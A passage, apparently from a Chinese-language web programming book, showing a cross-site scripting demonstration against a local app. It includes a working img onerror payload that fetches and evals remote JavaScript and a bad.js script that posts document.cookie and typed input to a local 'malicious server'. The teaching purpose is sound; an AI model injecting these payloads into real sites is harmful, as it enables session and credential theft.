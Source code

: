 ```js
Bad Server listening on port 9999
**sessionID=mysecretcode** 
```

不需要用户操作即可触发此行为，并且数据在浏览器尝试（并失败）加载图像时立即发送。对于最后一个示例，将名为 `bad.js` 的文件添加到 `static` 文件夹中，其内容如 *Listing 7.31* 所示。

列表 7.31：静态文件夹中 bad.js 文件的内容

```js
const input = document.getElementById("input");
const button = document.getElementById("btn");
const newButton = button.cloneNode();
button.parentElement.replaceChild(newButton, button);
newButton.textContent = "Bad Button";
newButton.addEventListener("click", () => {
    sendReq();
    fetch("http://localhost:9999", {
        method: "POST",
        body: JSON.stringify({
            cookie: document.cookie,
            input: input.value
        })
    });
});
input.value = "";
input.placeholder = "Enter something secret here";
document.getElementById("body").innerHTML = ""; 
```

此代码定位 HTML 文档中的 `button` 元素，并将其替换为将敏感数据发送到恶意服务器的元素。要使浏览器加载此文件，请在 `input` 元素中输入 *Listing 7.32* 中显示的文本，然后点击 **发送消息** 按钮。这是本节中最复杂的示例，必须特别小心地正确输入，并且作为单行输入。

列表 7.32：加载 JavaScript 文件

```js
<img src="img/nope" onerror="fetch('http://localhost:9999/bad.js').then(r => r.text()).then(t => eval(t))"> 
```

JavaScript 代码使用浏览器的 Fetch API 从恶意 HTTP 服务器请求 `bad.js` 文件，然后使用 JavaScript `eval` 函数执行其内容。`eval` 函数将任何字符串视为 JavaScript 代码，因此，每次使用时都可能存在风险。当浏览器执行 JavaScript 代码时，现有的按钮将被替换为将敏感 cookie 数据发送到恶意服务器的按钮，如图 *7.12* 所示。（按钮文本也进行了更改，以强调变化。）

![](img/B21959_07_11.png)
